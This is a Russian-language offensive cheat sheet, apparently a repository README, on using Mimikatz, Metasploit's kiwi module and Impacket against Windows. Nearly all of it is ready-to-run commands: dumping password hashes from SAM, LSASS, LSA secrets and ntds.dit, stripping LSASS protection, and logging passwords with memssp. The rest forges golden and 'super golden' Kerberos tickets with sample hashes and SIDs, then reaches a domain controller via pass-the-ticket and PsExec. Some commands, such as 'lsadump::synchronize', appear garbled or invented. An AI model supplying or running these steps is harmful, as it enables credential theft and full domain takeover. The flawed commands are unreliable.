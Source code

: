 # mimi

МИМИКАТЗ в метасплойт

use windows/x64/meterpreter_reverse_tcp

load kiwi
kiwi_cmd lsadump::sam

https://github.com/gentilkiwi/mimikatz/releases 

Как извлечь хеш пароля пользователя NTLM из файлов реестра


Если есть готвый стянуты файл sam  и system

.\mimikatz.exe

lsadump::sam /system:C:\Share-Server\files\SYSTEM /sam:C:\Share-Server\files\SAM

Если из памяти...
После запуска Mimikatz можно использовать следующие команды для вытягивания паролей из памяти Windows:

- `privilege::debug` - открывает привилегии отладки для текущего процесса.
- `token::elevate` - повышение привелегий
- `sekurlsa::logonPasswords` - выводит введенные пользователем логины и хэши паролей.
- `lsadump::sam` - вытягивает пароли из базы данных SAM.
- `lsadump::lsa` - вытягивает хэши паролей из дискового хранилища LSA.
- `lsadump::lsa` /patch Сбросьте эти хэши!!
- `token::elevate` - поднимает привилегии на максимальный уровень.
- `token::whoami` - выводит информацию о текущем пользователе.
- `lsadump::cache` - mscash2 последних 10 пользователей из систем и секьюрити
- `lsadump::dcsync` - /all /csv - дампим ntds.dit с контроллера
Подробнее: https://www.securitylab.ru/analytics/517178.php

- `lsadump::secrets`  - ntlm аккаунта машины

    --- Если Защищенный LSASS!!!!!!!!!!

  - `!+`     -- загружаем mimidrv.sys   
  - `!processprotect /process:lsass.exe /remove`   --- и тогда LSAS открыт

 - `sekurlsa::credman` - для выгрузки данных из credential manager




Для получения данных из ntds.dit, аналогично команде lsadump::sam в инструменте Mimikatz, можно использовать следующие команды:

1. Загрузите ntds.dit в память с помощью команды "lsadump::synchronize". Например:
```
mimikatz # lsadump::synchronize /system:C:\Windows\system32\config\system /ntds:C:\Windows\NTDS\ntds.dit
```

2. Используйте команду "lsadump::dcsync" для извлечения данных из базы данных ntds.dit. Например:
```
mimikatz # lsadump::dcsync /user:Administrator
```
где "Administrator" - это имя пользователя, данные которого вы хотите получить.


Если LSASS в виртуальном контейнере

privilege::debug
misc::memssp

и получаем после перелогина

c:\windows\system32\mimilsa.log

# Golden ticket  - Dump SID and KRBTGT hash (on DC) от АДМИНИСТРАТОРА

PS C:\pentst> .\mimikatz.exe

mimikatz # privilege::debug

mimikatz # token::elevate (DONT NEED THIS)

mimikatz # lsadump::lsa /patch (lsadump::lsa /inject /name:krbtgt) ---нужен sid и хеш krbtgt

# Create golden ticket (write to file in this case)

# Golden ticket impacket

python lookupsid.py ignite/Administrator:Ignite@987@192.168.1.105   (Получение SID домена)

python secretsdump.py administrator:Ignite@987@192.168.1.105 -выходной файл krb -user-status (Получение хеша krbtg)

impacket-ticketer -nthash 08f5bf2e292d77d8e460d3926a0d90de -domain-sid S-1-5-21-719111203-942671344-1831409528 -domain domain.dom anyuser   (В текущей директории создан билет anyuser.ccache. Экспортируем его)

export KRB5CCNAME=anyuser.ccache

python3 psexec.py -k -no-pass [домен]/[пользователь]@[имя хоста]    (подключение с псезек)



https://xakep.ru/2020/04/15/windows-ad-persistence/


PS C:\Tools> .\mimikatz.exe
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:golden

(kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500)

# Super golden ticket
kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424464709-3473652527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:corp_super_golden /endin:2147483647

# Inject ticket to memory
C:\Tools> mimikatz.exe
mimikatz # kerberos::ptt ticket.kirbi

# PsExec to DC
PsExec64.exe \\dc01 cmd.exe

# Или запуск cmd для доступа к другим машинам
mimikatz # misc::cmd
